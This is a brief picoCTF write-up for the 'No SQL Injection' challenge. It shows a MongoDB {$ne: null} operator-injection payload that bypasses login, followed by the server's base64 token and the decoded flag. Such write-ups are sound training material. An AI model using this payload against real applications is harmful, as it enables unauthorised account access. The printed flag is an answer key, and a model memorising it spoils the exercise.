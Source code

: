 ## No SQL Injection

[Link to challenge](https://play.picoctf.org/practice/challenge/443)

Write-up:

1. Analyzing the source code given, we see the server is using MongoDB. Since it parses the login form (email and password) as JSON, we can craft a payload for those fields:
   **{ $ne: null }** - $ne meaning "not equal". Since no valid user has null email nor password, every user will match this, and provide us with admin access, as well as a successful request.
   `{`
	   `"email":"{\"ne\": null}",`
	   `"password":"{\"ne\": null}"`
	`}`

2. Analyzing the response with Caido, we see that the token is encoded:
   `{`
    `"success": true,`
    `"email": "picoplayer355@picoctf.org",`
    `"token": "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzc4NGU0MGU4fQ==",`
    `"firstName": "pico",`
    `"lastName": "player"`
	`}`

3.  The 2 equal signs at the end suggest base64 encoding. Decoding with CyberChef returns the flag: ***picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_784e40e8}***